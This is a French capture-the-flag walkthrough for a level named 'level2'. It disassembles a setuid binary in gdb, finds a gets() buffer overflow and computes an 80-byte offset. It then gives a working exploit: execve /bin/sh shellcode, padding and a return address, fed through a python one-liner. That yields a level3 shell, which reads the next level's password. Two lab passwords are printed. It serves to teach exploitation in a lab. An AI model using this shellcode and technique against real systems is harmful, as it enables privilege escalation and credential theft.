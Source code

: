 # Level2

> login:password -> *`level2:53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77`*
```
:~$ su level2
Password:53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
---

```
:~$ pwd
/home/user/level2
```

```
:~$ ls -la
dr-xr-x---+ 1 level1 level1   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level1 level1  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level1 level1 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level2
-rw-r--r--+ 1 level1 level1   65 Sep 23  2015 .pass
-rw-r--r--  1 level1 level1  675 Apr  3  2012 .profile
```

Le Home contient un binaire `level2` :

```
:~$ ./level2
(input)

:~$ ./level2 test
(input)
```

Avec ou sans paramètre, le binaire attends un input

```
:~$ gdb level2
...

(gdb) disas main
Dump of assembler code for function main:
   0x0804853f <+0>:	    push   %ebp
   0x08048540 <+1>:	    mov    %esp,%ebp
   0x08048542 <+3>:	    and    $0xfffffff0,%esp
   0x08048545 <+6>:	    call   0x80484d4 <p>
   0x0804854a <+11>:	leave  
   0x0804854b <+12>:	ret 
End of assembler dump.

(gdb) disas p
Dump of assembler code for function p:
   (...)
   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
   (...)
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
   0x080484f2 <+30>: mov    0x4(%ebp),%eax
   (...)
   0x08048516 <+66>:	call   0x80483a0 <printf@plt>
   (...)
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
   (...)
   0x0804852d <+89>:	call   0x80483f0 <puts@plt>
   (...)
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:	leave  
   0x0804853e <+106>:	ret    
End of assembler dump.

(gdb) quit
```

On remarque que le main du binaire appel une fonction `p()` (+6) et que cette derniere appelle plusieurs fonctions dont une fonction `gets()` (+25) vulnerable a un buffer overflow.

Pour definir le buffer offset, on va run le programme dans gdb en suivant ces quelques etapes:
- `break *0x080484f2`: on pose un breakpoint sur l'eip 0x080484f2 (+30) qui intervient juste apres notre `gets()` (+25).
- `x $eax`: arrive a notre break, on cherche l'hexadecimal de `$eax`.
- `info frame`: on affiche plus d'informations concernant la frame et trouver le `Saved registers`.
- `print` saved_register - hexa_eax: on affiche notre offset, ici `80`.

```
(gdb) break *0x080484f2
Breakpoint 1 at 0x80484f2
(gdb) run
Starting program: /home/user/level2/level2 
test

Breakpoint 1, 0x080484f2 in p ()
(gdb) x $eax
0xbffff6dc:	0x74736574
(gdb) info frame
Stack level 0, frame at 0xbffff730:
 eip = 0x80484f2 in p; saved eip 0x804854a
 called by frame at 0xbffff740
 Arglist at 0xbffff728, args: 
 Locals at 0xbffff728, Previous frame's sp is 0xbffff730
 Saved registers:
  ebp at 0xbffff728, eip at 0xbffff72c
(gdb) print 0xbffff72c - 0xbffff6dc
$1 = 80
```
- On va pouvoir faire notre exploit avec l'utilisation d'un [shellcode](https://shell-storm.org/shellcode/files/shellcode-575.html) qui va permettre d'ouvrir le prompt a la saisie:\
`\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80`
- Puis finir par ajouter l'adresse de retour:\
"`\x08\xa0\x04\x08`"
- Le offset est de 80, mais notre shellcode est de **21 bytes** et le retour de **4 bytes**. On va donc devoir inserer (80 - (21+4) = 59) **59 bytes** entre le shellcode et le retour pour rendre executer notre exploit du binaire `level2`

```
:~$ (python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "q" * 59 + "\x08\xa0\x04\x08"'; cat) | ./level2

:~$ python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "q" * 59 + "\x08\xa0\x04\x08"' > /tmp/level2
:~$ cat /tmp/level2 - | ./level2
j
 X�Rh//shh/bin��1�̀qqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqq�
whoami
level3
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```
